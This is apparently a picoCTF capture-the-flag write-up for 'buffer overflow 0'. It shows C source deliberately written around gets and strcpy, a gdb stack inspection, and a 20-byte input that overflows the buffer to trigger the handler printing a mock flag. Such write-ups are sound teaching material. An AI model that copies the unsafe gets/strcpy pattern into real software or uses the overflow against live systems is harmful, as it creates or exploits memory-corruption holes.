 # picoCTF - Buffer Overflow 0

This is the 'buffer overflow 0' level from picoCTF. It can be found here, along with the binary source code. 

Let's take a look at the code first:

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){

  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler

  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1);
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```

After the validation for the 'flag.txt' file, there's this line `signal(SIGSEGV, sigsev_handler);i` which will call the 'sigsegv_handler' if the signal 'SIGSEGV' is received. 

This function is the one in charge of printing the flag.

So, we basically need to get a 'SIGSEGV' to occur, and we'll get the flag. 

Let's see what else the process is doing. 

We see that it's capturing our input with the `gets(buf1)` line, and then pass that value into vuln.

If we look the 'gets' man page, it says:
*DESCRIPTION*
Never use this function.

The issue with 'gets' is that you can tell how many characters it'll read, creating the perfect scenario for a buffer overflow vulnerability. 

So, we have a buffer for 'buf1' of 100 bytes, and then we're calling gets, allowing the user to send as many chars as wanted.

The program should be using "fgets" instad, where you can specify how many chars you want to read. 

After this, it calls the 'vuln' function, where it'll copy our input, into a 16 bytes variable 'buf2'. 

Let's put a breakpoint right after the call to 'gets', to see what's on the stack.
```
gdb ./vuln
(gdb) b *main+230
run
```
It prompts for an input, so let's do "AAAA". And then continue until the breakpoint right after the gets:
```
  0x56556463 <main+00e1>      call   0x56556130 <gets@plt>
→ 0x56556468 <main+00e6>      add    esp, 0x10
```
If we inspect the stack with `x/20wx $esp`, we can see the 20 words at the stack. (ESP is the stack pointer for 32 bits).

```
gef➤  x/20wx $esp
0xffffce80:     0xffffce94      0x000003e8      0x000003e8      0x5655641f
0xffffce90:     0x00000000      0x41414141      0x00000000      0xf7ffd000
0xffffcea0:     0xf7fc4540      0xffffffff      0x56555034      0xf7fc66d0
0xffffceb0:     0xf7ffd608      0x0000000c      0xffffcf1c      0xffffd0d8
0xffffcec0:     0x00000000      0x00000000      0x01000000      0x0000000c
```

At `0xffffce94` we see the 4 'A' we input. And at `0xffffcea8` is the return address (an address that points to where to come back, in this case, an address in main). 

So. If the substract the address of the start of our input from the address that contains the return value, we have 
`0xffffcea8 - 0xffffce94 = 0x14` which is 20 bytes. 

So. If we input 20 bytes of data, we can overwrite the return address, causing this way a SIGSEGV signal. 

Let's try it by running once again the program, but with this new information. 

```
mfumega@pwn-boy:/tmp/here$ ./vuln
Input: AAAAAAAAAAAAAAAAAAAA
mock{This_is_a_mock_flag}
```

And we got the local flag. We can do the same agaisnt the remote process, and get the flag aswell. 


